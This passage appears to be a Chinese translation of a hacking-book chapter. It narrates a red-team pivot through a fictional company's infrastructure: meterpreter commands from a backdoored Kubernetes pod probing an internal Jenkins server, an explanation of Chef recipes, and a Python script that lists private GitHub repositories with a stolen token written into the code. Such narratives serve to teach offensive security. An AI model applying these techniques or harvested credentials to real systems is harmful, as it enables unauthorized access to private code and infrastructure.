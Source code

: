 如果没有密切监控，这些 CI/CD 管道——在这种情况下是 Jenkins——很快就会发展成复杂网络的交汇点，基础设施神经纤维的交织处，如果被轻柔而熟练地刺激，可能会导致狂喜——而这正是我们要做的。

我们坦率地尝试直接访问 Jenkins 而不进行身份验证。Jenkins 默认监听在 8080 端口，所以我们使用现有的 meterpreter shell 向服务器发出 HTTP 查询：

```
# Our backdoored pod on the Kubernetes cluster

meterpreter > **execute curl -I -X GET -D http://ip-10-5-20-239.eu-west-1.compute.internal:8080**

HTTP/1.1 301
Location: https://www.github.com/hub/oauth_login
content-type: text/html; charset=iso-8859-1
`--snip--`
```

我们会立即被拒绝。这完全正常，毕竟，任何依赖这种关键组件进行交付的合格公司都会采取最低限度的保护措施。通往 Jenkins 的道路并不是从正门，而是通过小巷窗口中的一个小缝隙：那个可能最初帮助设置 Jenkins 的 Chef 服务器。

### 地狱厨房

Chef，像 Ansible 一样，是一个软件配置工具。你将一台新安装的机器注册到 Chef，然后它会拉取并执行一组预定义的指令，自动设置机器上的工具。例如，如果你的机器是一个 web 应用，Chef 会安装 Nginx，设置 MySQL 客户端，复制 SSH 配置文件，添加管理员用户，并安装任何其他所需的软件。

配置指令用 Ruby 编写，并按 Chef 的说法分组为所谓的 cookbook 和 recipe。列表 10-5 是一个 Chef 配方的例子，它创建了一个 config.json 文件并将用户添加到 *docker* 组。

```
# recipe.rb

# Copy the file seed-config.json on the new machine
cookbook_file config_json do
  source 'seed-config.json'
  owner 'root'
end

# Append the user admin to the docker group
group 'docker' do
    group_name 'docker'
    append  true
    members 'admin'
    action  :manage
end
`--snip--`
```

列表 10-5：一个 Chef 配方，它创建一个 *config.json* 文件并将用户添加到 *docker* 组

密码和密钥是任何服务器配置中的关键元素——尤其是像 Jenkins 这样，由于其设计的性质，几乎与基础设施的每个组件都有交互的服务器。没错，我说的就是 Jenkins！

如果你严格遵循良好的 DevOps 实践，一切都应该是自动化的、可重复的，更重要的是，有版本控制。你不能手动安装 Jenkins 或任何其他工具。你必须使用像 Chef 或 Ansible 这样的管理工具来描述你的 Jenkins 配置，并将其部署到一台全新的机器上。对这个配置的任何更改，比如升级插件或添加用户，都应该通过这个管理工具，它会跟踪、版本控制并测试这些更改，然后再将其应用到生产环境中。这就是基础设施即代码的本质。开发人员最喜欢的代码版本控制系统是什么？当然是 GitHub！

我们可以通过列出 MXR Ads 的所有私有仓库，并查找任何提到 Jenkins 相关的 Chef cookbook，快速验证 Chef 配方是否存储在 GitHub 上以供此任务使用。记住，我们已经有一个有效的 GitHub token，得益于 Kubernetes。我们首先提取仓库列表：

```
# list_repos.py
from github import Github
g = Github("9c13d31aaedc0cc351dd12cc45ffafbe89848020")
for repo in g.get_user().get_repos():
    print(repo.name, repo.clone_url)
```
